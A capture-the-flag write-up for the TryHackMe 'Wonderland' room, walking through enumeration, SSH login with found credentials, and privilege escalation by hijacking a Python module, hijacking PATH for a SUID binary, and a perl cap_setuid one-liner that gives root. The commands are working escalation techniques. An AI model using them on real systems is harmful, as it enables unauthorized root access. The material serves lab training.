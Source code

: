 # Wonderland

**Room link:** https://tryhackme.com/room/wonderland

1. `nmap` reveals SSH and HTTP services on standard ports.

2. `gobuster` on the web page reveals the following directories:

```
/img (Status: 301)
/poem (Status: 301)
/r (Status: 301)
```

Further investigation & guesses lead to the page `http://$TARGET_IP/r/a/b/b/i/t/` whose source contains some hidden credentials `alice:**REDACTED**`.

3. These credentials allow to log in as `alice` through SSH.

```
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

We have the right to run `walrus_and_the_carpenter.py` as `rabbit`. This script imports the `random` module and picks 10 random lines in a hardcoded poem.

2. Let us hijack the `random` module by creating a `random.py` file in the directory to spawn a shell as `rabbit`.

```
alice@wonderland:~$ echo "import os; os.system('/bin/bash')" > random.py
alice@wonderland:~$ sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

3. In its home directory, `rabbit` has a SUID executable (that does not seem to do anything interesting when we launch it).

```
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty
```

Because `strings` is not available on the target, we copy `teaParty` to `/tmp` for instance and bring it back to the local machine with `scp` using `alice`.

4. Using `strings`, we notice one interesting line in particular:

```
$ strings teaParty
...
/bin/echo -n 'Probably by ' && date --date='next hour' -R
...
```

`teaParty` seems to be invoking a shell line within which the `date` command is called with a relative path.

5. Back on the target machine, let us hijack the `date` command.

```
rabbit@wonderland:/home/rabbit$ echo /bin/bash > date
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
We get a shell as `hatter`.

6. Its home directory conveniently contains a `password.txt` file containing an anticipated piece of information allowing us to properly log in as `hatter` through SSH. It is not a sudoer. We look for interesting executables related to this user.

```
hatter@wonderland:~$ find / -group hatter -type f -executable 2>/dev/null
/usr/bin/perl5.26.1
/usr/bin/perl
...
hatter@wonderland:~$ ls -l /usr/bin/perl*
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
-rwxr-xr-x 1 root root     10216 Nov 19  2018 /usr/bin/perl5.26-x86_64-linux-gnu
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
...
hatter@wonderland:~$ getcap /usr/bin/perl*
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.26.1 = cap_setuid+ep
```
We can run `/usr/bin/perl` (or equivalently `/usr/bin/perl5.26.1`), which has an [interesting capability](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

7. Time to [exploit this capability with perl](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) and finally become `root` and collect the **root flag** (in `/home/alice` as seen in step 3) as well as the **user flag** (in `/root`).

```
hatter@wonderland:~$ perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# cat /home/alice/root.txt 
**REDACTED**
root@wonderland:~# cat /root/user.txt 
**REDACTED**
```
